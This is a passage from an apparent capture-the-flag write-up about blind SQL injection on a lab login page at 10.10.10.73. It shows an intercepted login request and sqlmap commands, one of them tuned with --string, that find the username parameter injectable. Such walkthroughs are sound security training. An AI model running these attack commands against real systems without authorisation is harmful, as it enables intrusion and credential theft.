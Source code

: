 We get the “Wrong identification: admin” error. Interesting. The payload is definitely interfering with the SQL query. However, this seems to be a case of [blind SQL injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection), where exploiting this vulnerability won’t allow us to automatically bypass authentication. Instead we’ll have to ask the database a series of true and false questions to enumerate information such as usernames and passwords. This type of injection is difficult to exploit even with a tool such as SQLMap, and we’ll demonstrate that below.

To run SQLMap on an application, first intercept the login request in Burp and save it in the file _login-request.txt_.

```text
POST /login.php HTTP/1.1
Host: 10.10.10.73
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.73/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Connection: close
Cookie: PHPSESSID=h15rlqgk2b4on7lkkqkca22692
Upgrade-Insecure-Requests: 1username=admin&password=password
```

Then run SQLMap on the request.

```text
sqlmap -level=5 -risk=3 -p username -r login-request.txt
```

* **-level:** level of tests to perform \(1–5, default 1\)
* **-risk:** risk of tests to perform \(1–3, default 1\)
* **-p:** testable parameter\(s\)
* **-r:** load HTTP request from a file

We get back the following result telling us that with the configuration setting we used, the login form is not vulnerable to SQL injection.

```text
[20:16:43] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

However, based on our manual testing, we know for sure that the login page is vulnerable to SQL injection. So, let’s tweak the SQLMap configuration.

```text
sqlmap -level=5 -risk=3 -p username --string="Wrong identification" -r login-request.txt
```

* **— string:** String to match when query is evaluated to True

It discovers that the username parameter is vulnerable!
